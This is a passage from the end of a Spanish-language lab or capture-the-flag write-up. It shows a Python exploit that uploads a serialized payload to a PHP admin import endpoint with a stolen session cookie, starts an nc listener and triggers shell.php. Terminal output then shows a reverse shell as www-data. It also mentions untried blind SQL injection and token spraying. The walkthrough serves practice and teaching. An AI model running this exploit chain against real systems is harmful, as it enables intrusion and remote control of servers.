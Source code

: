 ```
payload = proc.stdout.read()
print("[+] Generar payload")

def import_user():
	cookie = {"PHPSESSID":sessid}
	data = {"userobj":payload}
	r = requests.post("http://%s/admin/import_user.php" % target, data=data, cookies=cookie)

import_user()
print("[*] Solicitud enviada")

print("[*] Iniciando escucha...\n")
subprocess.Popen(["nc","-nvlp","%d"%lport])
time.sleep(1)

requests.get("http://%s/shell.php" % target)

while True:
	pass
```

Obteniendo shell como usuario `www-data`.

```
❯ python3 deserialize.py 172.17.0.2 192.168.0.107 mh94o35k7tqtp8bre3fopmi2i1
[+] Generar payload
[*] Solicitud enviada
[*] Iniciando escucha...

listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [172.17.0.2] 38698
bash: cannot set terminal process group (130): Inappropriate ioctl for device
bash: no job control in this shell
www-data@0e91e4d48c9e:/var/www/html$ whoami
whoami
www-data
```

Hay 2 vulnerabilidades más, uno `SQL blind` en postgresql y otro es un `token spray` del usuario `admin` pero yo lo dejaré hasta aquí, los animo a continuar con esas dos restantes que su análisis es un poco más complicada que las anteriores, aunque talvés más adelante me animo a terminarla pero por hoy fue suficiente.


